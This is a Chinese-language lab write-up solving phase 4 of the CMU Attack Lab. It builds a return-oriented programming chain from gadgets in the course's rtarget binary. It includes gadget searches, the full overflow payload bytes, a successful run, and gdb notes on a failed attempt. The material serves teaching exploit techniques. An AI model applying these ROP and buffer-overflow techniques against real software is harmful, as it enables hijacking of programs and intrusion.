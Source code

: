 # phase4

## 目标

重复 phase2 的攻击，即：

1. 把 cookie 的 value 作为第一个参数
2. 调用 touch2


## 简单分析

跟之前 phase2 不同的是，不能自己注入代码了，因为 rtarget 进行了一些保护措施

1. 采取了栈随机技术，每一次运行时，栈的地址不一样了
2. 限制了可执行代码的区域，即使我们碰巧在栈里注入了代码，也不能执行


所以我们需要使用 ROP(return oriented programming) 的方法进行攻击。
简单来说就是我们不注入自己需要执行的代码，而是在已有的代码中找到我们能够用的指令。
这些指令后面紧跟着 ret，这样我们可以能够在执行完后立即返回到下一个函数。

其实就是手动构造执行栈，栈里的指令地址都是自己”精心挑选“的。

> 只是栈随机了，但是 .text 代码段还是固定的，我们取到的指令地址还是一直可用的。

回归到我们的列子，我们需要找到一些这样可用的代码段(gadgets)，满足以下要求

1. 设置了 rdi 为 cookie 的值 `0x59b997fa`
   1. 可行的指令形式1： `popq %rdi`。
   2. 可行的指令形式2：`mov <>, %rdi`
2. push 了 touch2 的指令地址  `0x4017ec`


```shell
objdump -d rtarget > farm.d
```

至于怎么去搜这些可用的字节序列，需要先想出来你想执行哪些指令，然后在整个 `farm.d` 中搜索。

比如我想执行
```
58 90 popq %rax
c3    retq
```
搜索的字符串就是 `58 90 c3`

能够命中下面的搜索
```d
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq  
```

加上相应偏移得到我们需要的指令处地址(0x4019ca+0x2=0x4019cc)


## 寻找 gadgets

__1. 找到一个指令，能把我们需要的 cookie 值传递到 %rdi。__

可能存在以下两种指令：
```s
mov , %rdi # 第一种方式
pop %rdi # 方式二 查询 pdf 得到其指令字节是 5f
```

根据 attack.pdf 里面提供的字节序列，得到

- **第一种方式：`pop %rdi`** 字节序列是 `5f`，所以我们需要的 gadgets 为 `5f c3`
  ```s
  401419:	69 c0 5f c3 00 00    	imul   $0xc35f,%eax,%eax
  ```
  该段序列不在 farm 允许的操作区内，寻找另外一种方式
- **第二种方式：`mov , %rdi`**，我们需要的 gadgets 为 `48 89` 开头 `c3` 结尾。使用正则 `48 89 .*c3` 查询
  > 查看 《attacklab.pdf》第9页的指令，A. Encodings of movq instructions。查询相关可能序列。 
  ```s
  00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  ```

  有用的序列为 `48 89 c7 c3`，其指令含义为 **`mov %rax, %rdi`**。

  看来，我们还需要把 cookie 的 value 放到 %rax 里才行。这种可能性有两种：
  - 1. `mov $0x59b997fa, %rax`
  - 2. 先手动把立即数 `0x59b997fa` 压栈，然后 `pop %rax`

  第1种，按照立即数 0x59b997fa 没搜到，也不用费心了。试试第二种，可能性更大，需要搜索字节 `58 c3` 来获取 gadgets。这里直接搜不到，搜到了
  ```s
  00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  ```

  经查，90 表示无操作的意思。符合条件。

  **这下明朗了，整体的 ROP 思路是**
  1. push cookie value
  2. pop %rax
  3. mov %rax, %rdi


**2. 将 %rdi 正确设置后，将函数控制权，转移到 touch2**

这个简单，直接把 touch2 地址在栈上写入即可。


所以得到最终构造的字符串

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  /* padding 0x28 = 40 bytes，填充 getbuf 的栈空间，接下来用来 进行 ROP */
cc 19 40 00 00 00 00 00  /* pop %rax 的指令地址 0x4019ca+0x2 = 4019cc */
fa 97 b9 59 00 00 00 00  /* 填充 cookie 值，用于 pop %rax 时返回到 %rax */
a2 19 40 00 00 00 00 00  /* mov %rax, %rdi 指令地址， 0x4019a0+0x2 = 0x4019a2 */
ec 17 40 00 00 00 00 00  /* touch2 */
```


## 题解

```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00  /* padding 0x28 = 40 bytes，填充 getbuf 的栈空间，接下来用来 进行 ROP */
cc 19 40 00 00 00 00 00  /* pop %rax 的指令地址 0x4019ca+0x2 = 4019cc */
fa 97 b9 59 00 00 00 00  /* 填充 cookie 值，用于 pop %rax 时返回到 %rax */
a2 19 40 00 00 00 00 00  /* mov %rax, %rdi 指令地址， 0x4019a0+0x2 = 0x4019a2 */
ec 17 40 00 00 00 00 00  /* touch2 */
```


```shell
➜  target1 git:(main) ✗ cat ./exploit4.txt | ./hex2raw | ./rtarget -q

Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 CC 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00 
```


## 附录：失败记录

### 1、第一次计算错了值，~~0x401419+0x2 = 0x40141a~~

> - `pop %rdi` 字节序列是 `5f`，所以我们需要的 gadgets 为 `5f c3`
>
> ```s
> 401419:	69 c0 5f c3 00 00    	imul   $0xc35f,%eax,%eax
> ```
>
> 得到指令地址是 0x401419+0x2 = 0x40141b

上面的失败了，具体情况未知，大概是因为不再 farm 指定的返回内，所以不允许执行。

在 getbuf retq 前，打印相关栈信息

```
# 打印函数栈信息
(gdb) info frame
Stack level 0, frame at 0x7ffffffcf620:
 rip = 0x4017bd in getbuf (buf.c:16); saved rip = 0x40141a
 called by frame at 0x7ffffffcf628
 source language c.
 Arglist at 0x7ffffffcf610, args: 
 Locals at 0x7ffffffcf610, Previous frame's sp is 0x7ffffffcf620
 Saved registers:
  rip at 0x7ffffffcf618


# 打印上述 rip 的栈地址，即 ret 后需要执行的指令，存在栈的什么地方
(gdb) x *0x7ffffffcf618
0x40141a <scramble+146>:        0xc0


# 打印栈储存的返回值地址，我们发现和我们预期的 5fc3 差了一个字节
(gdb) x/10x 0x40141a
0x40141a <scramble+146>:        0xc0    0x5f    0xc3    0x00    0x00    0x89    0x44    0x24
0x401422 <scramble+154>:        0xc8    0x8b
```

